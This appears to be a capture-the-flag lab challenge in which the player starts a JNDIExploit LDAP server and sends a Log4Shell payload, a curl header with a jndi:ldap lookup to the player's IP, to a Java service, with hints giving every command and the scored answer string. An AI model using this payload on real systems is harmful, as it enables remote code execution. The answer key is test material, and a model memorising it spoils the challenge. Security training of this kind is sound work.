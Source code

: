 # Task 4: Preparing the Way 🔬

## DESCRIPTION

Looks like the attacker has been using JNDIExploit in your environment! That means they were likely trying to exploit log4j. That’s bad news, especially since you know the SudoSingles™ image optimization microservice is written in Java and uses log4j.

You need to figure out if the "sudosingles-optimizer" service is vulnerable to the log4shell exploit. Now.

A quick and efficient way to figure out if you’re vulnerable is to try to do the exploit yourself. (Maybe not the most secure way, though, so don’t try this at home.)

## DETAILS

So, you're going to use JNDIExploit to see if "sudosingles-optimizer" is vulnerable. This challenge has many parts, so go through each one carefully.

If you’re not already aware, JNDIExploit is a tool that sets up a malicious LDAP server that can be used to execute arbitrary commands on a host running an application vulnerable to the log4shell exploit.

TLDR; you’re going to trick "sudosingles-optimizer" into connecting to a malicious server so you can run whatever commands we want inside its container.

You have to set up the server first. To do this, do the following:

1. Open the Terminal Emulator application from the dock on the bottom.
2. Navigate to the "hacker" folder.
3. Find your private ip address on the LAN network. There are many ways to find your IP address on Linux – I'll leave this one to you. Just make sure you write it down. The IP you find should look something like 10.0.XX.XX or 10.0.XX.XXX
4. Run the JNDIExploit-1.2-SNAPSHOT.jar file using Java, configuring it to start the malicious server listening on the private IP address you found in step 3 above.

If you see something like the below, you’re on the right track:

[+] LDAP Server Start Listening on 1389... 
[+] HTTP Server Start Listening on 9001... 


To test to make sure it’s running correctly, open another Terminal Emulator window and run the following command, where YOURIP is your local IP: 

curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/SpringEcho}'

To complete this challenge, after you run the above command, enter the last line generated in the Terminal Emulator window where JNDIExploit is running, and hit “Submit.” If your answer doesn’t submit, double-check all the above steps. It could mean that something is wrong with the server command.

## NOTES

For the answer, enter the whole line, exactly as it appears in your terminal.

The answer will look something like this (fill in the blanks): [+] _______ ______: ___ 

(I know it’s annoying, I just want to be sure you’ve set this up correctly, or things will be even more annoying later.)

## SCORING

String answer:

[+] Response code: 200

## HINTS

### HINT 1

To find your IP address, you can run many commands in the Linux terminal. Maybe there’s some way to use the hostname command to get what you want?

If you’re having trouble with JNDIExploit, maybe try looking at the "-h" flag?

### HINT 2

"hostname -I" will give you your private IP address.

"java –jar JNDIExploit-1.2-SNAPSHOT.jar -i PRIVATEIPADDRESS" will start the server properly.

Triple-check to make sure you’re using that IP address.

The answer is the whole last line from the Terminal Emulator window where you first ran the JNDIExploit program. Punctuation and all.

The answer is not "[+] Receive ClassRequest: SpringEchoTemplate.class"

### HINT 3

1. Open a Terminal Emulator window
2. Run "hostname -I" to get your ip address
3. Run "java –jar JNDIExploit-1.2-SNAPSHOT.jar -i YOURIP"
4. Open another window and run "curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/SpringEcho}'"
5. If you are successful, you should see a line that looks like the following show up in your original terminal window: "[+] Response code: 200"
